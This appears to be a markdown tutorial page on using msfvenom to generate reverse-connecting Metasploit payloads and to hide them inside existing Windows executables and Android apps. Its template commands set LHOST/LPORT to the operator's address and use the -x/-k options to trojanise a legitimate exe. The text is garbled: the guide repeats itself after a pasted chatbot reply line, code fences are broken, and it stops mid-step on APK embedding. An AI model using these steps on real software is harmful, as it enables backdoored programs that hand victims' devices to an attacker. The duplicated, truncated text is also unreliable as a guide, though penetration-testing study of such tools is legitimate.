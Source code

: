 # Msfvenom Practical Guide

## Generating Standalone Payloads and Listeners

Msvenom is a powerful tool in the Metasploit framework used for payload generation. It allows you to create payloads for various platforms.

### Basic Payload Generation

To generate a basic payload for a specific platform, use the following command:

```bash
msfvenom -p [payload] -f [format] LHOST=[your_IP] LPORT=[port] -o [output_filename]
```
      Replace [payload] with the desired payload.
      Specify the format with -f (e.g., exe, apk, etc.).
      Set your IP with LHOST and the desired port with LPORT.
      Save the output with -o [output_filename].

# Embedding Payloads to exe, APK

Embedding into Windows Executable (exe)

You can embed a payload into an exe file using the following steps:

 Generate the payload as discussed earlier.
    Find a suitable exe file for embedding.

`msfvenom -x [existing_exe] -k -p [payload] LHOST=[your_IP] LPORT=[port] -o [output_filename]`

Replace [existing_exe] with the path to the existing exe file.

# Certainly! Here's the Markdown code for your .md file:

markdown

# Msfvenom Practical Guide

## Generating Standalone Payloads and Listeners

Msvenom is a powerful tool in the Metasploit framework used for payload generation. It allows you to create payloads for various platforms.

### Basic Payload Generation

To generate a basic payload for a specific platform, use the following command:

```bash
msfvenom -p [payload] -f [format] LHOST=[your_IP] LPORT=[port] -o [output_filename]

    Replace [payload] with the desired payload.
    Specify the format with -f (e.g., exe, apk, etc.).
    Set your IP with LHOST and the desired port with LPORT.
    Save the output with -o [output_filename].
```
# Embedding Payloads to exe, APK

### Embedding into Windows Executable (exe)

You can embed a payload into an exe file using the following steps:

    Generate the payload as discussed earlier.
    Find a suitable exe file for embedding.

`msfvenom -x [existing_exe] -k -p [payload] LHOST=[your_IP] LPORT=[port] -o [output_filename]`

Replace [existing_exe] with the path to the existing exe file.

# Embedding into Android Application (APK)

Embedding into an APK involves using the Metasploit resource script.

Generate the payload.
Create a resource script (e.g., embed.rc) with the following:
